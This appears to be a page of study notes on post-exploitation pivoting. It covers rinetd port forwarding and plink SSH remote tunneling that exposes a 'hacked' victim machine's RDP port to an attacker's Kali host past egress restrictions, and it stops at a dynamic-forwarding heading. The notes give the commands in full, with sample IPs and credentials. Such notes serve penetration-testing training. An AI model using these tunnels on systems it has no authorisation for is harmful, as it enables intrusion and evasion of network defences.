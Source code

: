 # post exploitation tools
### Port Forwarding and Redirection
Scenario: Client (RDP) --> Remote server. won't be able to connect due to egress restrictions in the network.
Solution: Use a proxy machine (Linux), and `rinetd` service to allow port forwarding.
- Proxy
  - `rinetd service` (port forwarding utility)
    - Proxy: 208.88.127.99 (public ip)
    - Client: not importand
    - Server: 67.23.72.109 (destination server with RDP enabled)
- edit `/etc/rinetd.conf`
```
# bindadress    bindport  connectaddress  connectport
208.88.127.99   80        67.23.72.109    3389
```
- restart the service: `/etc/init.d/rinetd restart`
- now within the client machine, open the RDP client and use the proxy machine's ip with port 80
  - `208.88.127.99:80`

## SSH tunneling and Proxies
Connecting local port to a remote port via ssh tunnel.
Tunneling a remote port to a local server.

### plink (ssh remote port forwarding)
Allowes us to tunnel a `remote port` to a `local server`.
- uploading `plink.exe` to the remote (hacked) machine
- checking that RDP is running on the machine `netstat -na | find "LISTEN"` (look for port `3389`)
- we wish to access the RDP port on this `internal non routable machine`
- we'll `tunnel out` the RDP port from this machine to our kali machine.
- execute on the victim machine `plink -l root -pw rootpassword 208.88.127.99 -R 3390:127.0.0.1:3389`
  - `plink -l kali-user -pw kali-password kali-machine-ip -R new-tunneled-port:127.0.0.1:port-to-expose-out`
  - `-R` remote tunnel, 
  - `127.0.0.1:3389`, traffic from local port 3389 will be tunneled out
- once executed, an SSH tunnel/connection will be made. do NOT use that terminal for anything. keep it open and don't touch it.
- on kali machine, `netstat -na | grep LISTEN`. you'll see that port 3390 is LISTENing to incoming requests.
- on kali machine, open a new terminal. execute the following: `rdesktop 127.0.0.1:3390` which will get tunneled to our victim machine.

### ssh (dynamic port forwarding)
